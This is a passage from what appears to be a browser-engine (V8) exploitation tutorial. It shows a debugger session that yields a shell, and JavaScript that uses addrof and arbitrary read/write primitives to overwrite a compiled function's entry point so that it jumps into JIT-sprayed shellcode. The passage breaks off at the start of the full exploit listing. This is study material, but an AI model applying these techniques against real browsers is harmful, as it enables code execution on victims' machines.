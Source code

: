 ```
pwndbg> set *(int64_t *)(0x02930019a215-1+0xc) = 0x562f80004040+0x69
pwndbg> job 0x02930019a215
0x02930019a215: [CodeDataContainer] in OldSpace
 - map: 0x029300002a71 <Map[28](CODE_DATA_CONTAINER_TYPE)>
 - kind: TURBOFAN
 - is_off_heap_trampoline: 0
 - code: 0x562f80004001 <Code TURBOFAN>
 - code_entry_point: 0x562f800040a9
 - kind_specific_flags: 4
...
pwndbg> c
Continuing.
[Thread 0x7f07a4162700 (LWP 288626) exited]
[Thread 0x7f07a4963700 (LWP 288625) exited]
[Thread 0x7f07a5164700 (LWP 288624) exited]
process 288620 is executing new program: /usr/bin/dash
$ id
```

### 3.6. Building an Exploit
At this point we have the majority of building blocks necessary to build a working exploit. The only missing component necessary to complete it is the part that overwrites the `foo` function's entry point.

This is fairly trivial to implement, we find the address of the `foo` function using our addrof primtive, before reading the pointer to its code object (stored at an offset of 0x18) via our arbitrary read primitive.

We then use our arbitrary read primitive again, in order to find the pointer to the `foo` function's entry point (stored at an offset of 0xc). After this, we use our arbitrary write primitive to overwrite the entry point value to the start of our JITed shellcode.
```js
/* get a pointer to the foo.code object */
let code = (read(addrof(foo) + 0x18n) - 1n) & 0xffffffffn;

/* get the entry point of the compiled function */
let entry = (read(code + 0xcn));

/* overwrite the entry point with the start of the shellcode */
write(code + 0xcn, entry + 0x69n);

foo();
```

In the code below you can find the whole working exploit code. Note that some of the offsets in the primitives have changed - this was due to the `foo` function being placed above the arrays on the heap.
{{< code language="js" title="exploit.js" id="2" expand="Show" collapse="Hide" isCollapsed="true" >}}
var bs = new ArrayBuffer(8);
var fs = new Float64Array(bs);
var is = new BigUint64Array(bs);

